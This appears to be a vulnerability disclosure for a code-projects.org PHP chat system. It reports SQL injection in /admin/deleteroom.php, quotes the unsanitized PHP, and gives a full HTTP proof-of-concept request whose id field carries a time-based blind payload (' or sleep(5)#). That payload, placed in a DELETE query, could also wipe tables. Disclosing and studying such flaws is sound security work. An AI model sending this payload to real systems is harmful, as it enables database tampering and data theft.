




# chat system has sql injection in /admin/deleteroom.php


## supplier


https://code-projects.org/chat-system-using-php-source-code/


## Vulnerability file


/admin/deleteroom.php


## describe


Because the id parameter is not sanitized or parameterized, an attacker can inject malicious SQL code to manipulate the database query. By leveraging time-based SQL injection techniques, an attacker can induce deliberate delays in the database response using functions like SLEEP(). This can be used to confirm the presence of the vulnerability and potentially extract sensitive information from the database.


## **Code analysis**


```php
<?php
	include('../conn.php');
	
	if (isset($_POST['del'])){
		$id=$_POST['id'];
		
		mysqli_query($conn,"delete from `chatroom` where chatroomid='$id'");
		mysqli_query($conn,"delete from `chat` where chatroomid='$id'");
		mysqli_query($conn,"delete from `chat_member` where chatroomid='$id'");
	}
?>
```

Inserting $_POST['id'] into Mysql without any filter. A time-based blind SQL injection can be triggered.


## POC

```http
POST /admin/deleteroom.php HTTP/1.1
Host: 127.0.0.1:7777
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 24
Origin: http://127.0.0.1:7777
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://127.0.0.1:7777/admin/
Cookie: PHPSESSID=qua31ea51oa01tdbtr5cqapm4v
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

id=4' or sleep(5)#&del=1
```


Send this request, you can observe an additional 30-second (5 * 3 * 2) time delay triggered by the time-based injection.


**part1**








**part2**





